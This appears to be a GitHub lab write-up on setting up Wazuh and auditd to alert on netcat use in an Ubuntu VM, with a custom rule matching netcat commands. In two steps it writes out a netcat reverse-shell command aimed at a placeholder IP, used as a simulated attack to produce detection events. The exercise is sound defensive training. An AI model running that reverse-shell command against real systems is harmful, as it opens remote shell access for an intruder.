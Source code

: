 🛡️ Suspicious Command Detection (Simulated Attack)

 🔍 Overview

In this exercise, we simulate a suspicious command execution using `netcat` (`nc`), a common tool leveraged by attackers to establish reverse shells or transfer files. We'll use Wazuh to detect and generate alerts when such commands are executed on a monitored system.


 ⚙️ Environment Setup

Operating System: Ubuntu (Virtual Machine)
Monitoring Tool: Wazuh 4.12.0
Log Source: auditd (Linux Audit Daemon)

Ensure your Wazuh manager and dashboard are properly installed and accessible.


## 🧪 Step 1: Install and Configure `auditd`

Auditd logs system-level events, including command executions.

```bash
sudo apt update
sudo apt install auditd -y
sudo systemctl enable auditd
sudo systemctl start auditd
```

## Step 2: Simulate a Suspicious Command
```bash
nc -e /bin/bash 192.168.1.100 4444
```
🛑 Replace 192.168.1.100 with a dummy IP. This test is harmless in a VM and is used to generate a detection event.


## Step 3: Configure Wazuh to Monitor audit.log
Edit the Wazuh manager config to read from auditd logs:
```bash
sudo nano /var/ossec/etc/ossec.conf
```
Add this block inside the <ossec_config> tag:

xml
<localfile>
  <log_format>audit</log_format>
  <location>/var/log/audit/audit.log</location>
</localfile>


Save and restart the Wazuh manager:

```bash
sudo systemctl restart wazuh-manager
```

## 📏 Step 4: Create a Custom Rule to Detect nc
Edit your local rules file:

```bash
sudo nano /var/ossec/etc/rules/local_rules.xml
```
Add the following custom rule:
xml
<group name="auditd,suspicious_commands,">
  <rule id="100101" level="10">
    <decoded_as>auditd</decoded_as>
    <field name="command">.*nc.*</field>
    <description>Suspicious command detected: netcat usage</description>
  </rule>
</group>
Restart the Wazuh manager:

```bash
sudo systemctl restart wazuh-manager
```


###📈 Step 5: Validate in Wazuh Dashboard
Re-run the test command:

```bash
nc -e /bin/bash 192.168.1.100 4444
```
Log in to the Wazuh dashboard.
Go to Security Events → Rules.
Search for:
Rule ID: 100101
Description: Suspicious command detected: netcat usage


